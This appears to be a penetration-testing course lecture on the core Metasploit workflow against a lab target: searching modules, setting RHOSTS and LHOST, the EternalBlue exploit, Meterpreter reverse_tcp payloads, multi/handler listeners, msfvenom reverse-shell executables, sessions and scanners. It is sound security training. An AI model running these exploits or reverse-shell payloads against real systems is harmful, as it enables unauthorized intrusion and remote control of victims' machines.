

# Basic Usage

This lecture walks through the core Metasploit workflow: find a module, read its
options, set them, run it, and handle the result. The example attacks a
deliberately vulnerable lab target. Every command here is one you will use on
every engagement.

## The Console

`msfconsole` is the main interface. It has tab completion, command history, and
a help system. Learn to lean on tab completion for long module paths.

```text
help              list all commands
help <command>    detail for one command
banner            redraw the banner (shows module counts)
version           framework version
```

## The Standard Workflow

Almost everything follows the same five steps:

1. **search** for a module
2. **use** it
3. check and **set** its options
4. **run** (or `exploit`) it
5. work with the resulting **session**

### 1. Searching

`search` finds modules by keyword, and filters narrow the results:

```text
search eternalblue
search type:exploit platform:windows smb
search cve:2017 type:exploit
search name:vsftpd
```

The results table numbers each hit and shows a **rank** (how reliable the
module is, from `excellent` down to `low`) and a disclosure date. Prefer
higher-ranked modules: a `low`-rank exploit is more likely to crash the service
than to give you a session.

### 2. Selecting a Module

```text
use exploit/windows/smb/ms17_010_eternalblue
```

You can also `use` a search result by its index number from the last search.
Once selected, the prompt changes to show the module, and `info` prints its
full description, options, references, and targets.

### 3. Options

```text
show options
```

Options you will meet constantly:

- **RHOSTS**: the target host(s). Accepts a single address, a range, a CIDR
  block, or a file (`file:/path/targets.txt`).
- **RPORT**: the target port (usually has a sensible default).
- **LHOST**: your address, for a reverse payload to connect back to.
- **LPORT**: the port your handler listens on.
- **PAYLOAD**: which payload to deliver (exploits set a default).

Required options with no default are marked `yes` in the `Required` column and
must be set before the module will run.

```text
set RHOSTS 10.10.10.20
set LHOST 10.10.10.5
show options
```

Read the options back after setting them. Confirming `LHOST` is correct here
saves a failed exploit later.

### 4. Payloads

List payloads compatible with the selected exploit:

```text
show payloads
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

`reverse_tcp` is a safe default because it connects outward from the target. If
you only need a quick command shell, a `shell` payload is smaller; if you want
the full post-exploitation toolkit, use Meterpreter (lecture 4).

### 5. Running

```text
exploit
```

`exploit` and `run` are synonyms. On success the module reports the stages being
sent and then opens a session:

```text
[*] Started reverse TCP handler on 10.10.10.5:4444
[*] Sending stage (200774 bytes) to 10.10.10.20
[*] Meterpreter session 1 opened (10.10.10.5:4444 -> 10.10.10.20:49512)
```

Useful run variants:

```text
exploit -j     run as a background job, so the console stays free
exploit -z     do not interact with the session immediately
```

## Staged Payloads and Handlers



When you run an exploit with a staged reverse payload, Metasploit automatically
starts a **handler**, a listener on `LHOST:LPORT`, before sending the exploit.
The exploit carries only the small stager. The stager connects back to the
handler, which sends the full stage (for example Meterpreter) over that same
connection. The stage runs in memory.

Two consequences matter:

- Because the stage is delivered over the network and lives in memory, scanning
  files on disk will not find it. Detection has to come from watching the
  outbound connection and the process's behaviour.
- If `LHOST`/`LPORT` are wrong or a firewall blocks the callback, the stager
  connects to nothing and you get no session even though the exploit "ran".

### Standalone Handlers

Sometimes you deliver a payload by other means (a file you generated with
`msfvenom`) and just need Metasploit to catch the callback. The
`multi/handler` module is a standalone handler:

```text
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.10.5
set LPORT 4444
exploit -j
```

The payload here must match the payload in the file you delivered, exactly.

## Generating Payloads with msfvenom

`msfvenom` is a separate command-line tool that produces a payload as a
standalone file in a chosen format, for cases where you are not exploiting a
service directly:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=4444 -f exe -o payload.exe
```

- `-p` the payload
- `-f` the output format (`exe`, `elf`, `raw`, `python`, `war`, ...)
- `-o` the output file
- `LHOST`/`LPORT` set as `KEY=VALUE` arguments

List what it supports with `msfvenom --list payloads`, `--list formats`, and
`--list encoders`. Encoders change the payload's bytes but, as noted in lecture
1, do not reliably defeat modern antivirus; do not rely on them for evasion.

Generate payloads only to run against your own lab or an authorized target.

## Managing Sessions

Each successful payload gives you a session:

```text
sessions           list open sessions
sessions -i 1      interact with session 1
sessions -k 1      kill session 1
sessions -k -a     kill all sessions
```

Inside an interactive session, `background` (or Ctrl+Z) returns you to the
console without closing the session, so you can run more modules and come back.

## Auxiliary Modules

Not everything is an exploit. Auxiliary modules scan, probe, and brute-force
without delivering a payload. The workflow is identical:

```text
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.10.10.0/24
run
```

```text
use auxiliary/scanner/ssh/ssh_version
set RHOSTS 10.10.10.20
run
```

Scanners populate the database (`hosts`, `services`) just like `db_nmap`, which
makes them a natural first step before choosing an exploit.

## When an Exploit Fails

Exploits fail often. A checklist before you give up:

- Is `RHOSTS` the right target, and is the service actually running on `RPORT`?
- Is `LHOST` an address the target can reach? (Not `127.0.0.1`, not a wrong
  interface.)
- Does the payload architecture match the target (`x86` vs `x64`)?
- Is a host firewall blocking the reverse callback?
- Is the target actually vulnerable, or already patched? Verify with a scanner
  or a `check` (some modules support `check` to test without exploiting).

```text
check
```

## Key Takeaways

- The workflow is always: search, use, set options, run, handle the session.
- `RHOSTS`/`RPORT` describe the target; `LHOST`/`LPORT` describe your handler.
- Staged payloads need a handler; Metasploit starts one automatically, or use
  `multi/handler` to catch a payload delivered another way.
- `msfvenom` generates standalone payload files; encoders change bytes but are
  not reliable evasion.
- `background` keeps a session alive while you work; `sessions -i` returns to it.
- Most exploit failures are wrong `LHOST`, wrong architecture, a blocked
  callback, or an already-patched target.

## Resources

- Rapid7, *Using Metasploit*: <https://docs.metasploit.com>
- *Metasploit: The Penetration Tester's Guide* (No Starch Press).
- Module 02 (Reconnaissance) for scanning that feeds target selection.
